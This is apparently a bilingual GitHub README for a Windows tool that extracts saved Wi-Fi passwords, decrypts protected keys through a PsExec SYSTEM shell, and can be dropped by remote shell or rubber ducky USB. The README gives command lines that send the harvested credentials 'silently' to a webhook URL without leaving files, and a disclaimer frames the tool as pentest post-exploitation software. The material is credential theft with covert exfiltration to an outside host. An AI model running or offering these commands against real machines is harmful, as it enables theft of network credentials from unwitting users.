 # WIFI_Extractor & Wdecrpytor

<b>*DISCLAIMER*

This is not made for illegal or malicious purposes, I consider it like a post-exploitation tool with legal authority before of use in whatever location you are doing your pentest to check weak and reutilization of passwords, I'm not responsible of any malicious acts that you may do.

Esto no está hecho con fines ilegales o maliciosos, lo considero como una herramienta de post-explotación con autoridad legal antes del uso en cualquier lugar donde esté haciendo su pentest para verificar la debilidad y la reutilización de contraseñas, no soy responsable de cualquier acto malicioso que puedas hacer.
</b>

if you run it with python you might need this requeriments

Si lo ejecutas con python tal vez podrias necesitar estos requerimientos


```
pip install click

pip install elementpath

pip install requests
```

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used "offline", physically (rubber ducky).
It can detect protected local passwords and try to decrypt it, you must need at least a cmd with admin privileges to be more successful, then with the help of PsExec it will try to open a system shell and execute wdecryptor with the key


Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
También se puede usar "offline", físicamente con un pendrive(rubber ducky).
Puede detecar contraseñas protegidas localmente y tratar de descriptarlas, necesitaras al menos una cmd con privilegios de admin para tener mas probabilidad de éxito, luego con la ayuda de PsExec tratará de ejecutar wdecryptor con la key.


<b>Usage: E_WIFI.exe [OPTIONS]


```
  Options:

  -u, --url TEXT      Webhook/POST URL
  
  -n, --no-txt        No crea el archivo txt | Doesn't create the txt file
  
  -v, --version       Imprime la version | Prints the version
  
  -p, --print-output  Muestra la salida en la terminal | Shows the output in
                      the terminal
                      
  -a, --admin         Indica si la consola actual tiene privilegios de admin |
                      Indicates if the current console has admin privileges
                      
  --help              Show this message and exit.
  
  ```
  </b>

<b>* Offline</b>

```python3 E_WIFIoffline.py```


CMD or Powershell E_WIFIoffline.exe | ./E_WIFIoffline.exe (You can also double click it)

Creates a txt with the WIFI's ssid and passwords stored in the local machine

Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

<b>* Online</b>

Usages

default usage

```python3 E_WIFI.py```


CMD or Powershell <br>
```E_WIFI.exe | ./E_WIFI.exe```

Creates a txt with the WIFI's ssid and passwords stored in the local machine

Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

<b>Another Example</b>

```python3 E_WIFI.py -u https://webhook.site/yoururl -n -p ```

CMD or Powershell<br>
```
E_WIFI.exe -u https://webhook.site/yoururl -n -p
./E_WIFI.exe -u https://webhook.site/yoururl -n -p
```

type --help for more detailed info

```
PD: 

    THE TXT IS CREATED BY DEFAULT -n TURN IT OFF

    EL TXT SE CREA POR DEFECTO -n APAGA LA CREACION
```

<b>* V1.3 and Wdecryptor Examples</b>

Quick Example of the new function

Ejemplo rapido de la nueva funcion

```E_WIFI.exe -p -a -u https://webhooksite...```
![ejemplo nueva funcion](https://user-images.githubusercontent.com/74321905/225491588-1b1c1de4-0fa2-4981-8aa7-317983d13d6a.png)

"-a" will answer automatically with "Y" because it indicates that the current console is with admin privileges at least if you don't put this option you will need to put manually the option

"-a" respondera automaticamente con "Y" porque indica que la consola actual tiene al menos privilegios de administrador, si no pones esta opcion tendras que responder manualmente

You will see that in the webhook it will be sent with the decrypted password

Podras ver en el webhook que sera enviado con la contrasena desencriptada
![ejemplo nueva funcion2](https://user-images.githubusercontent.com/74321905/225492226-b03d05e1-4f79-4f88-b872-04df838bc34d.png)

<b>* Using Wdecryptor manually</b>

Also you can use the E_WIFI to extract the keys and then manually use Wdecryptor with an opened system authority cmd

Tambien podras usar E_WIFI para extraer las keys y luego manualmente usar wdecryptor con una cmd abierta con system authority

![ejemplo nueva funcion3](https://user-images.githubusercontent.com/74321905/225493385-921a6a0f-230c-4a2f-a83c-fa020282db92.png)

it will be saved in a "decrypted.txt" file also with the following format "Encrypted Key : Decrypted"

tambien se guardara en un archivo "decrypted.txt" con el siguiente formato "Key Encriptada : Descriptada"
